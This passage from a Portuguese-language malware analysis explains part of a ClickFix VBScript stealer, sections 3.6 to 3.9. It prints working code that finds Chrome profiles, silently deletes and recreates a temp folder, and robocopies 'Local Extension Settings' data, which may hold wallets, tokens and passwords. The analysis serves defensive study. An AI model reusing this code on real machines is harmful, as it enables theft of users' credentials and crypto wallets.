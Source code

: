   <figcaption><i><strong>Figura 7.</strong> Execução do payload malicioso, compressão e pasta criada.</i></figcaption>
</figure>

### 3.6. Localiza os dados do Chrome

```vb {linenos=table linenostart=63}
chromeRoot = userProfile & "\AppData\Local\Google\Chrome\User Data"
If Not fso.FolderExists(chromeRoot) Then
     Exit Sub
End If
```
- Verifica se o Chrome está instalado.
- Se não estiver, encerra a execução.

### 3.7. Apaga cópias antigas e cria nova pasta temporária

```vb {linenos=table linenostart=69}
If fso.FolderExists(tempCopyDir) Then
    shell.Run "cmd /c rmdir /s /q """ & tempCopyDir & """", 0, True
End If
fso.CreateFolder(tempCopyDir)
```
- Remove e recria a pasta temporária onde será copiado o conteúdo.

### 3.8. Copia dados das extensões do Chrome

```vb {linenos=table linenostart=74}
Set profileDirs = fso.GetFolder(chromeRoot).SubFolders
For Each folder In profileDirs
    If LCase(folder.Name) = "default" Or LCase(Left(folder.Name, 7)) = "profile" Then
        Dim extPath, destPath, robocopyCmd
        extPath = folder.Path & "\Local Extension Settings"
        If fso.FolderExists(extPath) Then
            destPath = tempCopyDir & "\" & folder.Name
            robocopyCmd = "cmd /c robocopy """ & extPath & """ """ & destPath & """ /E /R:1 /W:1"
            shell.Run robocopyCmd, 0, True
        End If
    End If
Next
```
Essa parte é praticamente o coração desse arquivo malicioso. Aqui ele:

- Varre os perfis do Chrome.
- Foca especificamente no diretório `Local Extension Settings`.
- Copia tudo com o comando do `robocopy`.

Esse diretório é o alvo principal, porque aqui é onde se armazena as extensões e, geralmente, extensões de algum serviço, pode armazenar senhas, tokens ou carteiras de criptomoedas ou dados de sessão.

Um outro ClickFix que eu analisei, a única finalidade era mineração.

### 3.9. Compacta tudo em um arquivo `.zip`
